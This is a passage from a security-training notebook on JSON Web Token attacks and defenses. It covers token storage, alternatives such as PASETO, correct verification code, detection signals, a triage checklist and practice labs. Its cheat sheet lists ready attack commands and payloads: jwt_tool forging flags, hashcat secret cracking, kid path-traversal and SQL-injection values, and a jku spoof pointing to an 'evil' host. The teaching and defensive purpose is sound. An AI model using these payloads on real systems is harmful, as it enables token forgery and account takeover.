  invalidates the old) plus **reuse detection** (if an old, already-rotated refresh token is
  presented, treat it as theft and revoke the whole family).
- **Not revoked on logout / password change.** If logout or a password reset doesn't invalidate
  refresh tokens, a stolen one survives the user's remediation.
- **Stored insecurely.** Refresh tokens in `localStorage` are XSS-lootable (tie back to Chapter 3);
  prefer `HttpOnly` cookies or native secure storage.
- **Weak/JWT refresh tokens** are subject to every forgery attack in this chapter if they're JWTs
  with the same weaknesses.



**Authorization-code and PKCE note.** The OAuth *authorization code* flow (with PKCE) is the secure
way SPAs/mobile obtain these tokens; the older *implicit* flow returned tokens in the URL fragment
(leaky via history/Referer) and is deprecated. When testing OAuth, also check `redirect_uri`
validation (open-redirect → code theft), `state` (CSRF on the callback — Chapter 4), and PKCE
presence — but the *token* handling above is where JWT attacks intersect. **Bug-bounty relevance:**
"API accepts the ID token as an access token" and "refresh token not revoked on logout/reset" are
common, accepted OAuth/JWT findings.

## Part 12: Beyond Signed JWTs — JWE, PASETO, and Opaque Tokens

Signed JWTs (JWS) are the default, but knowing the alternatives sharpens both attack and defense,
and explains why some tokens *aren't* editable the way Part 1 describes.

**JWE — encrypted JWTs.** A JWT can be *encrypted* (JSON Web Encryption) rather than merely signed,
producing five dot-separated parts instead of three. Here the payload is **not** readable — it's
ciphertext — so the "decode and edit claims" approach fails. JWE has its own pitfalls, though:
weak/`none`-like key-management algorithms (`alg` values like `RSA1_5` have padding-oracle history),
and implementations that confuse JWS and JWE handling. If you encounter a 5-part token, it's JWE;
attacks shift from claim-editing to key-management and library-confusion issues. Distinguish by
counting dots: **2 dots = JWS (signed, readable), 4 dots = JWE (encrypted)**.

**PASETO — Platform-Agnostic Security Tokens.** A deliberate "JWT done safer" design: it removes
algorithm agility entirely (no attacker-chosen `alg`, so no `none`/confusion class), versions the
protocol, and binds the mode to the key type. If a target uses PASETO, the Part 3–4 attacks simply
don't apply by construction — a good illustration of *why* pinning the algorithm matters: PASETO
pins it at the protocol level.

**Opaque tokens (server-side sessions).** The oldest and, for many cases, safest option: a random
identifier that references server-side state, revealing nothing and forgeable by no one (it's just
a lookup key). Opaque tokens trade JWT's statelessness for **instant revocability** and immunity to
every forgery attack in this chapter — there's no signature to bypass because the token carries no
claims. The tradeoff is a datastore lookup per request and shared state across nodes.

| Token style | Claims readable? | Forgeable via this chapter's attacks? | Revocable individually? |
|---|---|---|---|
| Signed JWT (JWS) | Yes | Yes (none/confusion/weak-secret/header) | No (needs denylist/short TTL) |
| Encrypted JWT (JWE) | No (ciphertext) | Key-management/confusion class instead | No |
| PASETO | Yes (local/public modes vary) | No `alg` attacks (no agility) | No (design similar to JWS) |
| Opaque session id | No (random) | No (nothing to forge) | Yes (delete server-side) |

**Design guidance that this table encodes:** if you don't need cross-service statelessness, an
opaque server-side session sidesteps the entire JWT attack catalogue and gives you revocation for
free (this is exactly the "consider opaque tokens for high-value sessions" advice from the defense
section). Where you *do* need stateless JWTs, PASETO or a strictly-pinned JWS with the Part 11
defenses is the safer path. **Security relevance:** part of assessing a target is identifying which
token style it uses — count the dots, check for a JWKS/`alg` header — because it determines which
attack surface even exists.

## Part 13: Where the Token Lives — Storage Tradeoffs and Cross-Chapter Risk

Forging a token (Parts 3–7) is one attack path; *stealing* an already-valid token is the other,
and where the client keeps its JWT decides which theft vectors apply. This ties the JWT directly to
the Client-Side notebook: a token is only as safe as its storage.

**The three common client storage locations**, each with a distinct risk profile:

| Storage | Readable by JS? | Sent automatically? | Main theft vector | CSRF exposure |
|---|---|---|---|---|
| `localStorage` / `sessionStorage` | **Yes** | No (app attaches it) | **XSS** reads it (Chapter 3) | None (not ambient) |
| Cookie **without** `HttpOnly` | Yes | Yes (ambient) | XSS reads it | Yes (Chapter 4) |
| Cookie **with** `HttpOnly` | No | Yes (ambient) | XSS can *use* but not read | Yes — needs CSRF defenses |

The recurring modern mistake is putting the JWT in `localStorage` "to avoid CSRF." It does avoid
CSRF (the token isn't ambient — a cross-site page can't make the browser attach it), but it trades
that for **total XSS lootability**: any script in the origin runs `localStorage.getItem('token')`
and exfiltrates a fully valid token (exactly the Chapter 3 weaponization). And because a JWT is
self-contained and often can't be revoked individually (Part 12), a stolen JWT is usable until it
expires — worse than a stolen opaque session that can be killed server-side.



**The defensive synthesis across notebooks:** the safest common pattern for browser-facing apps is
a **short-lived access token in an `HttpOnly`, `Secure`, `SameSite` cookie** (so XSS can't read it
and CSRF is constrained), paired with a **rotating refresh token** and **server-side revocation**
(Part 11) so a compromise has a short blast radius. If you can tolerate server state, an **opaque
session** (Part 12) is simpler and revocable. Storing bearer JWTs in `localStorage` should be a
conscious, justified choice — usually for pure API clients where no browser XSS surface exists —
not a reflexive "avoid CSRF" default.

**Security relevance for testers:** when you find an XSS on a JWT-in-`localStorage` app, the impact
write-up is "XSS → steal bearer token → full account access for the token lifetime, no re-auth,"
which is materially worse than a cookie-based session and should be reflected in severity. When you
find a JWT in a non-`HttpOnly` cookie, both XSS *and* CSRF apply. Identifying the storage is part of
scoping the token's real risk.

## Part 14: Detection & Defense Angle

JWT security is about *verification discipline* and *key hygiene*. In priority order:

**1. Pin the algorithm server-side.** Accept exactly the algorithm(s) you issue (e.g. `["RS256"]`),
never read the algorithm choice from the token to decide the *family*, and **never accept `none`**
for signed tokens. This single control kills `alg=none` and HS/RS confusion.

**2. Use verification APIs that separate key types.** Call an RSA-verify that only accepts RSA keys,
or an HMAC-verify that only accepts a secret — so a header can't switch families. Avoid
key-type-agnostic `verify(token, key)` signatures.

**3. Strong, secret HMAC keys / well-managed RSA keys.** HS secrets ≥256 bits, random, unique per
environment, in a secrets manager, rotated. RSA private keys protected; publish only the public
key. Treat a leaked HS secret as a full compromise.

**4. Don't derive keys from untrusted header params.** Ignore or strictly allow-list `kid`
(map to a fixed key table; sanitise as file/DB/shell input), and allow-list `jku`/`x5u` to your own
domains — or don't support them at all. Don't trust an embedded `jwk`.

**5. Validate all claims.** Enforce `exp` (and `nbf`/`iat`), check `iss` and `aud` against expected
values, and verify the signature *before* reading any claim. Never `verify=False` in production.

**6. Short-lived tokens + revocation strategy.** Because stateless JWTs can't be individually
revoked, keep access-token lifetimes short (minutes), use refresh tokens with server-side
revocation, and maintain a denylist/`jti` tracking or key-rotation path for emergency invalidation.
For high-value sessions, consider opaque server-side tokens instead of self-contained JWTs.

**Reference: correct verification in three ecosystems.** The single most effective defense is
calling the library correctly — pin the algorithm and enforce claims. Concretely:

```python
# Python / PyJWT — pin alg, require and verify exp/iss/aud, single key type.
jwt.decode(token, PUBLIC_KEY, algorithms=["RS256"],        # exactly RS256, never a list incl. HS/none
           issuer="https://auth.example", audience="app-api",
           options={"require": ["exp", "iss", "aud"], "verify_signature": True})
```

```javascript
// Node / jsonwebtoken — algorithms MUST be an explicit allow-list; without it the lib infers from
// the header (the confusion/none footgun).
jwt.verify(token, publicKey, {
  algorithms: ["RS256"],                 // pin; do NOT omit this option
  issuer: "https://auth.example",
  audience: "app-api"
});                                       // throws on bad sig / expired / wrong iss|aud
```

```go
// Go / golang-jwt — reject any token whose signing method isn't the one you expect.
token, err := jwt.Parse(raw, func(t *jwt.Token) (interface{}, error) {
    if _, ok := t.Method.(*jwt.SigningMethodRSA); !ok {   // refuse HMAC/none tokens outright
        return nil, fmt.Errorf("unexpected signing method: %v", t.Header["alg"])
    }
    return publicKey, nil
})
```

Each snippet encodes the same three rules: (1) an explicit algorithm allow-list matching your issuer
(kills `none` and confusion), (2) a key object of the correct type, and (3) mandatory claim
validation. The Go example additionally shows the defensive check inside the key-lookup callback —
the recommended pattern for libraries that pass you the parsed header before verification.

**Detection signals:**

| Signal | Where | Indicates |
|---|---|---|
| Tokens presented with `alg: none`/`None` | API/auth logs (log the header alg) | `alg=none` attempts |
| `alg` mismatch vs issued (RS256 issued, HS256 seen) | Auth logs | Algorithm-confusion attempt |
| `kid` values with `../`, quotes, or shell metachars | Input/auth logs | `kid` injection |
| `jku`/`x5u` pointing off-domain | Auth logs / egress | Key-substitution attempt |
| Accepted tokens with past `exp` or unknown `iss`/`aud` | Auth logs | Missing claim enforcement |
| Bursts of token submissions with tweaked payloads | WAF/app logs | Offline-forge validation / tampering |

**Blue-team usage:** log the token *header* (`alg`, `kid`, `jku`) on every request and alert on any
`alg`/`kid`/`jku` that differs from what you issue — a mismatch is a forgery attempt, not a normal
client. **IR use case:** if impersonation is suspected, pull the presented tokens' headers and
compare `alg`/`kid`/issuer to your issuance config; `none`, an unexpected HS256, or an off-domain
`jku` pinpoints the technique.

## Part 15: Common Pitfalls & Gotchas

- **Thinking base64url = encryption.** The payload is readable and editable by anyone; only the
  signature protects it. Never store secrets in a JWT.
- **Accepting `none` (or its case variants).** Pin the algorithm; reject `none` explicitly.
- **Key-type-agnostic verification.** The root of HS/RS confusion — separate RSA and HMAC verify
  paths.
- **Weak/tutorial HMAC secrets.** `secret`/`password`/app-name are cracked instantly; use 256-bit
  random secrets.
- **Trusting header `kid`/`jku`/`jwk`.** Attacker-controlled key selection; allow-list or ignore.
- **Not verifying the signature (or `verify=False`).** Decodes ≠ verifies; always verify first.
- **Ignoring `exp`/`iss`/`aud`.** Enables replay and cross-service/tenant confusion.
- **Assuming JWTs can be revoked like sessions.** They can't individually; design short lifetimes +
  refresh/revocation.
- **Testing only HS or only RS.** Try both families and the confusion between them.

## Part 15b: A Repeatable JWT Triage Checklist

When a token lands in front of you, run this fixed sequence — it covers every attack in the chapter
in order of lowest attacker cost first, so you find the easy wins before spending effort:

1. **Classify.** Count the dots: 2 = signed JWS (this chapter's surface), 4 = JWE (encrypted; pivot
   to key-management). Decode header + payload; note `alg`, `kid`, `jku`, `jwk`, and the claims that
   drive authorization (`role`, `sub`, `aud`, `iss`, `exp`).
2. **Is it verified at all?** Change one character of the signature and replay. Still works → the
   signature isn't checked (Part 7) — tamper claims freely.
3. **`alg=none` and case variants** (`none`, `None`, `nOnE`) → strip the signature (Part 3).
4. **If HS256:** attempt an offline secret crack (`hashcat -m 16500`, Part 5).
5. **If RS256:** attempt algorithm confusion (Part 4), obtaining the public key from JWKS or
   deriving it from two tokens (`sig2n`).
6. **Header key params:** test `kid` for path traversal / SQLi / command injection, and
   `jku`/`x5u`/`jwk` for attacker-key substitution (Part 6).
7. **Claim enforcement:** replay an **expired** token, a wrong-`iss`/`aud` token, and an ID token
   where the access token goes (Part 11 confusion).
8. **Storage & theft:** note where the client keeps the token (Part 13) — `localStorage` means an
   XSS yields a portable, often-unrevocable credential.

Record which step succeeded; that *is* your PoC narrative. Running the full list every time turns
JWT testing from guesswork into a reliable, repeatable process — and it doubles as a defensive
review checklist: a token that survives all eight steps is one whose implementation pins its
algorithm, uses a strong key, ignores untrusted header key-selectors, and enforces every claim.

## Part 16: Final Revision / Summary

- A JWT is `header.payload.signature`, base64url-encoded (Part 1) — the payload is **readable and
  editable**; only the **signature** protects the claims, and the *header chooses the algorithm*,
  which is the design wart attackers exploit.
- **HS256** (symmetric, one shared secret) vs **RS256** (asymmetric, private-signs/public-verifies)
  (Part 2): security rests on the secret's strength (HS) or on pinning the algorithm and protecting
  the private key (RS).
- **`alg=none`** (Part 3) strips the signature; **HS/RS confusion** (Part 4) verifies an RSA token
  as HMAC using the *public key* as the secret; **weak HMAC secrets** (Part 5) crack offline with
  `hashcat -m 16500` → forge anything.
- **Header params** (Part 6) — `kid` (path/SQL/command injection), `jku`/`x5u` (attacker key set),
  `jwk` (embedded key) — let attackers control the verification key.
- **Claim/flow bugs** (Part 7): signature not verified, `exp`/`iss`/`aud` unenforced, claims trusted
  for authorization. **`jwt_tool`** (Part 8) automates every attack.
- **Defend** (Part 14): pin the algorithm (kill none + confusion), key-type-separated verification,
  strong/managed keys, ignore/allow-list header key params, validate all claims, and short-lived
  tokens with a revocation strategy.

## Part 17: Cheat Sheet / Quick Reference

**Decode**

```bash
echo '<header-part>' | tr '_-' '/+' | base64 -d      # read header/payload (no key needed)
python3 jwt_tool.py <token>                            # decode + claims
```

**Attacks**

| Attack | Command |
|---|---|
| `alg=none` | `jwt_tool.py <t> -X a`  (or hand-craft `{"alg":"none"}.<payload>.`) |
| HS/RS confusion | `jwt_tool.py <t> -X k -pk public.pem` |
| Crack HS secret | `hashcat -a 0 -m 16500 token.jwt rockyou.txt` |
| Sign with known secret | `jwt_tool.py <t> -S hs256 -p '<secret>' -T` |
| `kid` traversal | `kid: "../../../../dev/null"` + sign with empty key |
| `kid` SQLi | `kid: "x' UNION SELECT 'k'-- -"` + sign with `k` |
| `jku` spoof | header `jku: https://evil/jwks.json` + `-X s -ju <url>` |
| Embedded `jwk` | `jwt_tool.py <t> -X i` |
| Tamper claims | `jwt_tool.py <t> -T` |

**Test order:** mangle sig (verified at all?) → `alg=none`/case → HS/RS confusion → crack secret →
`kid`/`jku`/`jwk` → tamper `exp`/`iss`/`aud`/`role`.

**Defense map**

| Control | Kills |
|---|---|
| Pin algorithm, reject `none` | `alg=none`, HS/RS confusion |
| Key-type-separated verify API | algorithm confusion |
| Strong random 256-bit HS secret | offline secret cracking |
| Ignore/allow-list `kid`/`jku`/`jwk` | header key-substitution/injection |
| Verify signature first, enforce `exp`/`iss`/`aud` | replay, claim tampering, cross-tenant |
| Short-lived tokens + refresh/revocation | stateless-token replay |

## Part 18: Practice Labs & Resources

- **PortSwigger Web Security Academy — JWT (all labs):** "authentication bypass via unverified
  signature", "flawed signature verification", "weak signing key" (hashcat), "jwk header
  injection", "jku header injection", "kid header path traversal", and the two "algorithm
  confusion" labs. One-to-one with Parts 3–7. Free, and designed to be solved with Burp's **JWT
  Editor** extension.
- **`jwt_tool` (ticarpi) and its wiki:** the Part 8 tool with a full attack playbook; the wiki is
  an excellent JWT-attack reference.
- **hashcat mode 16500 / john `HMAC-SHA256`:** offline secret cracking (Part 5); practice on
  weak-secret CTF tokens.
- **jwt.io:** decode/inspect tokens and experiment with algorithms (use only your own tokens).
- **OWASP JWT Cheat Sheet & OWASP WSTG-SESS-10:** authoritative defense and testing references.
- **CTFs / HackTheBox / TryHackMe JWT rooms & picoCTF web:** weak-secret and `alg=none` challenges
  abound.
- **Disclosed HackerOne reports (filter `jwt`):** accepted algorithm-confusion, weak-secret, and
  `kid`/`jku` reports for impact framing.

**Practice questions**

1. You capture an RS256 token and find the server's RSA public key at `/.well-known/jwks.json`.
   Explain, step by step, how you forge an admin token via algorithm confusion, including why the
   public key works as the HMAC secret and the one implementation detail most likely to make your
   forgery fail.
2. A token is HS256. Describe the offline attack to recover the secret without ever contacting the
   server, the exact `hashcat` invocation, and why the attack needs no rate-limiting to succeed.
3. An application loads its verification key with `SELECT key FROM keys WHERE kid = '<kid>'`. Craft
   a `kid` value that makes the server verify against a key you control, and explain how you then
   sign the token.
4. Given a JWT that still authenticates after you change a single character in its signature, what
   do you conclude, what is the underlying bug, and what is the one-line fix?
5. Contrast why pinning the algorithm server-side defeats both `alg=none` and RS→HS confusion, and
   explain why reading the algorithm from the token header is the shared root cause of both.
6. An SPA stores its JWT in `localStorage` and the team says this makes them "immune to CSRF."
   Assess that claim, name the theft vector it exposes them to instead, and explain why a stolen
   JWT is often worse to contain than a stolen opaque session id.
7. You capture two RS256 tokens from a target that does **not** expose a JWKS endpoint. Explain how
   you can still attempt an algorithm-confusion attack, what you recover from the two tokens, and
   why "we never publish our public key" fails to prevent the attack.
